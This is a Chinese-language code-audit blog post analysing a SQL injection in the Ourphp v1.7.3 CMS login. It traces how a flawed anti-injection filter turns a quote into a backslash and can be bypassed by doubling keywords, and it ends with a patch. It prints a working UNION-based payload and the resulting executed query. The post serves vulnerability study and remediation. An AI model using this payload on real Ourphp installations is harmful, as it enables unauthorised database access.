 ```yaml
---
title: Ourphp v1.7.3 SQL Injection
date: 2017-09-10 15:53:49
tags:
	- SQL注入
	- 代码审计
---
```


跟着表哥学习学习(ง •_•)ง
<!-- more -->
## 0x00 漏洞产生原理
首先放上表哥给的Payload

	)union selselectect 1,user(),3,4,5-- p0'
通过Payload往上找漏洞点

	http://www.op.com/client/user/?cn-login.html
首先根据登录页面的url，找到在templates/user目录下的cn_login.html,然后在会员登录表单中，找到调用的php文件的路径，在第31行

	action="[.$webpath.]client/user/ourphp_play.class.php?ourphp_cms=login"

然后往上找到client/user目录中的ourphp_play.class.php，在第184行，将post传入的参数带入了数据库查询语句

	$ourphp_rs = $db -> select("`id`,`OP_Useremail`,`OP_Userpass`,`OP_Userstatus`,`OP_Username`","`ourphp_user`","WHERE (`OP_Useremail` = '".dowith_sql($_POST["OP_Useremail"])."' || `OP_Usertel` = '".dowith_sql($_POST["OP_Useremail"])."') and `OP_Userpass` = '".dowith_sql(substr(md5(md5($_REQUEST["OP_Userpass"])),0,16))."'");

在其中使用了"dowith_sql()"函数将参数进行了过滤，很明显是自定义函数，定位一下，在function目录下的ourphp_function.php文件中的第10行.

审计一下所谓的防注入函数，可以看到开发人员在此犯了一个严重的错误。首先使用addslashes()函数将一些敏感字符，比如单引号进行了转义，但是，在后续处理中又将单引号使用str_ireplace()函数替换掉了，这就相当于传入的单引号变成了反斜杠"\"。

	第11行
	$ourphpstr = addslashes($ourphpstr);
	第35行
	$ourphpstr = str_ireplace("'","",$ourphpstr);
	

这个漏洞和前段时间的国赛中的一个Web题一样，题目是
	
	wanna to see your hat?
解题过程：

	http://iwenhu.cn/2017/07/12/%E5%9B%BD%E8%B5%9B%E7%9A%84%E4%B8%A4%E4%B8%AAWeb%E9%A2%98.html

而且在这个防注入函数中，开发者采用的一大串的str_ireplace函数来替换黑名单中的字符，有很大一部分是没有意义的，简单的双写一下就可以绕过.

	比如 cocountunt,在里面一替换，就成了count
在这时，payload经过函数处理，变成了

	)union select 1,user(),3,4,5-- p0\
这时带入了SQL查询语句中
	
	select("`id`,`OP_Useremail`,`OP_Userpass`,`OP_Userstatus`,`OP_Username`","`ourphp_user`","WHERE (`OP_Useremail` = ')union select 1,user(),3,4,5-- p0\' || `OP_Usertel` = ')union select 1,user(),3,4,5-- p0\') and `OP_Userpass` = '".dowith_sql(substr(md5(md5($_REQUEST["OP_Userpass"])),0,16))."'");

在这个语句中，因为最后面的那个单引号被处理成了反斜杠\,然后反斜杠将语句末尾的单引号转义，使得

	(`OP_Useremail` = ')union select 1,user(),3,4,5-- p0\' || `OP_Usertel` = ')

通过Mysql监控工具可以找到执行的SQL语句
	
	select `id`,`OP_Useremail`,`OP_Userpass`,`OP_Userstatus`,`OP_Username` from `ourphp_user` WHERE (`OP_Useremail` = ')union select 1,user(),3,4,5-- p0\' || `OP_Usertel` = ')union select 1,user(),3,4,5-- p0\') and `OP_Userpass` = 'd9b1d7db4cd6e709'
在这里OP_Useremail为

	)union select 1,user(),3,4,5-- p0\' || `OP_Usertel` =
	
语句中的union select执行了。后面的密码处理的语句都被注释符"-- "注释掉了。这样就构成了一个SQL注入漏洞。


## 0x01 修补方案
	
该漏洞最主要的原因是waf的处理逻辑有问题，可以把

	$ourphpstr = str_ireplace("'","",$ourphpstr);
放到

	$ourphpstr = addslashes($ourphpstr);
的前面，先处理单引号，再转义敏感字符。这样的话漏洞就被处理掉了。

对于双写绕过呢，可以用递归的方式检查参数，在牺牲小部分性能的情况下来获取服务器的安全，就是检查，过滤，检查，过滤，直到检查通过为止。
